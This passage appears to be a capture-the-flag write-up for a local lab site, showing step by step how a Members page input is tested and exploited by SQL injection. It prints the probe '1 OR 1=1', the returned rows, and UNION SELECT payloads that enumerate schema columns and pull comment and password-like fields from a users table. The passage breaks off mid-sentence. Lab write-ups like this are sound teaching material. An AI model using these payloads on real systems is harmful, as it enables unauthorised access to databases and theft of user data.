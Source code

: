 When navigating to the Members page http://localhost:8080/index.php?page=member we are met with an input field.

We can try to send `1 OR 1=1` to check if we could do an SQL Injection attack, and we see that we can indeed proceed when this is returned on the page:

```
ID: 1 OR 1=1 
First name: one
Surname : me

ID: 1 OR 1=1 
First name: two
Surname : me

ID: 1 OR 1=1 
First name: three
Surname : me

ID: 1 OR 1=1 
First name: Flag
Surname : GetThe
```

Now that we know that it is vulnerable let's try getting some more information about the database:

`1 UNION SELECT table_name,column_name FROM information_schema.columns WHERE table_schema=database() --`

This shows us that there are multiple columns that we can look into. Upon further research, we spot a user named `Flag` and we try to find his ID: 

`1 UNION SELECT user_id, first_name FROM users --`

We are now going to try to find some informations in the `Commentaire` and `countersign` columns: 

`1 UNION SELECT Commentaire, countersign FROM users WHERE user_id=5 --`

This 

